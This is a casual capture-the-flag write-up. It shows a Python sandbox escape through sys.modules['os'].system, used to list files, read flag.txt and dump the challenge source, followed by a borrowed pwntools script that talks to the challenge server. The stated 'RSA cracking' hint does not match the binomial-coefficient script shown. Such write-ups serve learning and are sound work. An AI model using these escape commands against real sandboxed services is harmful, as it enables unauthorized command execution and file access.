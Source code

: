 ```
>>> print sys.modules['os'].system('ls -al')               
total 28
drwxr-x--- 1 root ecowas 4096 Aug  3 20:40 .
drwxr-xr-x 1 root root   4096 Aug  3 22:51 ..
-rwxr-x--- 1 root ecowas 8916 Aug  3 20:39 chal.py
-rwxr----- 1 root ecowas   21 Aug  3 19:48 flag.txt
-rwxr-x--- 1 root ecowas   53 Aug  3 20:02 start.sh
0
```
Lol this one is amazing

```
>>> print sys.modules['os'].system('cat flag.txt')
Check the source code0
```
I knew It could not be over yet

```
>>> print sys.modules['os'].system('cat chal.py') 
...
[REDACTED]
```
I put the mad long output [here](2022/chal.py)

Big hints: `RSA cracking + hex string`

Trust me..;alot of scripting is involved from here

But to not be too verbose I once again reffer to [those awesome guys](https://github.com/TargetRoot/CTF) and their final payload

```
from pwn import *
def f (param1):
	local_10=1
	local_14=2
	while local_14<=param1:
		local_10 = local_14 * local_10
		local_14 = local_14 + 1
	return local_10
def D(param1,param2):
	return f(param1)//(f(param2)*f(param1-param2))
def checking (param1):
	d=[]
	for i in range(param1+1):
		d.append(D(param1,i))
	return d
conn=remote('51.38.37.81',4003)
a=int(conn.recvline().decode())
print(a)
d=checking(a)
print(len(d))
for i in range(a+1):
	print(d[i])
	conn.sendline(str(d[i]).encode())
print(conn.recvall())

```
